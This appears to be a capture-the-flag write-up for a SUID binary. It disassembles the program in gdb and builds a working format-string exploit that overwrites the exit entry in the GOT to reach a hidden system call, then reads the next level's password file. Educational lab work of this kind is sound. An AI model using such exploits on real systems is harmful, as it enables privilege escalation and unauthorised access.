 # Level 5

## First clue
- once logged in as level5 we find again an executable with the same behavior of ./level4, `level5` owned by `level6` and the SUID (SET USER ID) bit set(indicated by the s in place of the execute permission for the owner (rws)) that means that when anyone execute the file it will run with the privileges of level5, not the person executing it
- we try to execute it without arguments and we get the prompt back
- if we write something, that something is copied back as output

## Inspect with gdb
- The binary contains printf, fgets, system, external functions used for input/output operations and executing commands, indicating potential interaction with the user and system.
```
(gdb) info function
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
0x08048390  _exit
0x08048390  _exit@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  system
0x080483b0  system@plt
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x080483d0  exit
0x080483d0  exit@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  o
0x080484c2  n
0x08048504  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
(gdb)


```
- there are three main functions, `main`, `o` and `n`
- first we inspect main
## Main
```
   0x08048504 <+0>:	push   %ebp
   0x08048505 <+1>:	mov    %esp,%ebp
   0x08048507 <+3>:	and    $0xfffffff0,%esp
   0x0804850a <+6>:	call   0x80484c2 <n>
   0x0804850f <+11>:	leave  
   0x08048510 <+12>:	ret    

```
- main is simple, makes a stack alignment and call function `n`, as in level4
## Function n

```
   0x080484c2 <+0>:	push   %ebp
   0x080484c3 <+1>:	mov    %esp,%ebp
   0x080484c5 <+3>:	sub    $0x218,%esp
   0x080484cb <+9>:	mov    0x8049848,%eax
   0x080484d0 <+14>:	mov    %eax,0x8(%esp)
   0x080484d4 <+18>:	movl   $0x200,0x4(%esp)
   0x080484dc <+26>:	lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:	mov    %eax,(%esp)
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:	mov    %eax,(%esp)
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>

```
- allocates 0x218 = 536 bytes
- reads input from user using fgets, storing input in buffer at 0x208(%ebp)
- it calls printf function (that is at address 0x8048380) with as argument the user input retrieved with fget and stored in 0x208 
- it exits wihout returning
## Function o
```
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x18,%esp
   0x080484aa <+6>:	movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt> 
End of assembler dump.

```
- prepares the stack frame
- allocates 24 bytes (0x18 in hexa)
- the movl $0x80485f0, (%esp) instruction prepares an argument to be passed to the system function. It's placing the address 0x80485f0 onto the stack, which will serve as the argument to the system function call.
- The call 0x80483b0 <system@plt> instruction then calls the system function, passing the address 0x80485f0 as its argument. This means that the system function will execute the command specified at the memory address 0x80485f0.

## Vulnerability
- in function n the user input is not properly sanitized before being passed to the printf function, so we still have a control string vulnerability, but unlike in level4 we don't have a return and the system call is in function o, that is not called anywhere. So we can construct a controlled string that allows us to replace the address of exit in the GOT with the address of "o", so that when function n exit, "o" is called instead.


## Finding the address of exit in GOT (Global Offset Table), that is writeable
- ` objdump -R level5`
```
level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main


```
- we got th address: 08049838

## Finding at what position the exit functin address passed as argument to printf will be stored in the stack: 


`python -c 'print "aaaa" + " %x" * 10' | ./level5`
- we got: `aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078 20782520 25207825 78252078` => exit will be at 4th position

## Finding the address of function o
```
(gdb) info function o
All functions matching regular expression "o":

Non-debugging symbols:
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x08048420  __do_global_dtors_aux
0x080484a4  o
0x080485a0  __do_global_ctors_aux
```
- the addreess of o function that we want the exit point to allowing us to execute the shell command is 0x080484a4

## Building the exploit: 

`python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n" > /tmp/attack5'`
`cat /tmp/attack5 - | ./level5`

- \x38\x98\x04\x08 represents the address of the exit function in little-endian format.
- %134513824d specifies a large number of characters to print before %n is executed. 134513824 is the decimal representation of the little-endian address 0x080484a4, which is the address of the "o" function
- %4$n tells printf to write the count of characters printed so far to the memory address specified by the fourth argument, that is the exit function address
- so  we're effectively overwriting the address of exit in the Global Offset Table (GOT) with the address of the o function


## Triggering System Call
Once executed the exploit 134513824 chr are printed, we have the prompt back and we can cat the /level6/.pass containing the flag
